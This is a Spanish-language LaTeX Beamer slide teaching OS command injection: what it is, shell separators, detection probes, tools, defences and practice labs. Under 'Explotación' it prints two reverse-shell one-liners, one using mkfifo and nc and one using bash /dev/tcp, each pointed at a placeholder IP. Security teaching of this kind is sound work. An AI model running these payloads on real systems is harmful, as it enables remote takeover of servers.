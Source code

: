 \documentclass[aspectratio=169,10pt]{beamer}
\begin{document}
\begin{frame}[allowframebreaks]{Command Injection}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item ¿Qué es?
  \item La app pasa entrada del usuario a un comando del sistema sin
  \item sanear $\rightarrow$ el atacante encadena sus propios comandos.
  \item Separadores (Linux $\cdot$ Windows)
  \item ; | || \& \&\& `cmd` \$(cmd) $\cdot$ \& | \%0a
  \item Detección
  \item ping 127.0.0.1; id $\cdot$ \&\& whoami $\cdot$ blind: ;sleep 5 / OOB(DNS)
  \item Explotación $\rightarrow$ reverse shell
  \item ;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2\textgreater{}\&1|nc IP 9999 \textgreater{}/tmp/f
  \item ; bash -i \textgreater{}\& /dev/tcp/\textless{}ip\textgreater{}/4444 0\textgreater{}\&1
  \item Herramientas
  \item commix (automático) $\cdot$ HackBar (one-liners)
  \item Defensa
  \item Validar/escapar entrada; allowlist de comandos; APIs
  \item parametrizadas (no llamar a la shell); usuario de mínimo
  \item privilegio (sin netcat libre); seguro por diseño.
  \item Variante: Code Injection (inyectar código, no comandos).
  \item PortSwigger OS command injection $\cdot$ DVWA
  \item Parámetro: ip=127.0.0.1
  \item + ; whoami
  \item ping 127.0.0.1; whoami
  \item El servidor ejecuta AMBOS
  \item $\rightarrow$ RCE
  \item Saneando la entrada se corta la cadena
  \end{itemize}
\end{frame}
\end{document}
